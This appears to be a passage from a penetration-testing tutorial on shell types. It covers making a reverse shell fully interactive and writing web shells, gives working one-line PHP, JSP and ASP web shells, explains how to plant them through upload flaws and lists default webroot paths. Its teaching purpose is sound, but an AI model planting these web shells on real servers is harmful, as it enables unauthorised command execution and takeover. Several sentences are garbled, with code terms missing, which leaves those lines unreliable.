   Types of Shells

```shell-session
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

Once we do that, we should have a shell that uses the terminal's full features, just like an SSH connection.`netcat`

---

## Web Shell

The final type of shell we have is a . A is typically a web script, i.e., or , that accepts our command through HTTP request parameters such as or request parameters, executes our command, and prints its output back on the web page.`Web Shell``Web Shell``PHP``ASPX``GET``POST`

#### Writing a Web Shell

First of all, we need to write our web shell that would take our command through a request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:`GET`

Code: php

```php
<?php system($_REQUEST["cmd"]); ?>
```

Code: jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

Code: asp

```asp
<% eval request("cmd") %>
```

---

#### Uploading a Web Shell

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. and upload it, and then access our uploaded file to execute commands.`shell.php`

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

|Web Server|Default Webroot|
|---|---|
|`Apache`|/var/www/html/|
|`Nginx`|/usr/local/nginx/html/|
|`IIS`|c:\inetpub\wwwroot\|
|`XAMPP`|C:\xampp\htdocs\|
